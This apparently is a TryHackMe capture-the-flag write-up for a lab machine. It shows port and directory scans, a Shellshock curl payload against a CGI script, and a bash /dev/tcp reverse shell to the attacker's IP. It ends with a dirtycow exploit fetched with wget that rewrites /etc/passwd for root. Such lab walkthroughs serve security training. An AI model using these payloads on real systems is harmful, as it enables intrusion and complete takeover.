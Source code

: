 ```yaml
---
categories: [TryHackMe]
tags: [PrivEsc, ShellShock, sudo exploit]  
image:
  path: /Vulnhub-Files/img/Turtle/front.png
  alt: Turtle TryHackMe Machine 💻 
---
```


## Port Scan Resutls ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/0day]
└─$ rustscan -t 5000 -a 10.10.106.27 --ulimit 5000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-''
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.106.27:22
Open 10.10.106.27:80
[~] Starting Script(s)
```
{: .nolineno}

## Web Enumeration ⤵️

While doing directory or files bruteforcing I got some directories like this →

```bash
301      GET        9l       28w      313c http://10.10.106.27/cgi-bin => http://10.10.106.27/cgi-bin/
301      GET        9l       28w      309c http://10.10.106.27/img => http://10.10.106.27/img/
200      GET        7l       11w      156c http://10.10.106.27/js/main.js
200      GET       78l      138w     1114c http://10.10.106.27/css/main.css
301      GET        9l       28w      313c http://10.10.106.27/uploads => http://10.10.106.27/uploads/
200      GET      423l     2430w   194997c http://10.10.106.27/img/avatar.png
200      GET       42l      136w     3025c http://10.10.106.27/
301      GET        9l       28w      311c http://10.10.106.27/admin => http://10.10.106.27/admin/
301      GET        9l       28w      309c http://10.10.106.27/css => http://10.10.106.27/css/
301      GET        9l       28w      308c http://10.10.106.27/js => http://10.10.106.27/js/
301      GET        9l       28w      312c http://10.10.106.27/backup => http://10.10.106.27/backup/
200      GET        1l        7w       38c http://10.10.106.27/robots.txt
301      GET        9l       28w      312c http://10.10.106.27/secret => http://10.10.106.27/secret/
```
{: .nolineno}

Now I tried the shellshock vulnerability and I got a hit like this →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/0day]
└─$ curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://10.10.106.27/cgi-bin/test.cgi

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{: .nolineno}

Now its time for the reverse shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/0day]
└─$ curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /bin/bash -c 'bash -i >& /dev/tcp/10.8.83.156/4444 0>&1'" http://10.10.106.27/cgi-bin/test.cgi
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Turtle/Untitled.png)

## SSH SHELL ⤵️

Now I directly checked its kernel version and it is way old →

```bash
www-data@ubuntu:/$ uname -an
uname -an
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/$
```
{: .nolineno}

Now I will be using the dirtycow exploit over here for getting the root shell →

```bash
www-data@ubuntu:/tmp$ wget http://10.8.83.156/exploit_64
--2023-10-05 09:30:19--  http://10.8.83.156/exploit_64
Connecting to 10.8.83.156:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14368 (14K) [application/octet-stream]
Saving to: 'exploit_64'

 0% [                                       ] 0           --.-K100%[======================================>] 14,368      77.1KB/s   in 0.2s   

2023-10-05 09:30:19 (77.1 KB/s) - 'exploit_64' saved [14368/14368]

www-data@ubuntu:/tmp$ chmod +x *
www-data@ubuntu:/tmp$ ./exploit_64 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
evait:fiw.I6FqpfXW.:0:0:pwned:/root:/bin/bash

mmap: 7fecff9ea000

# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
cat /root/root.txt
THM{FLAG is}
```
{: .nolineno}

I am Root Now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }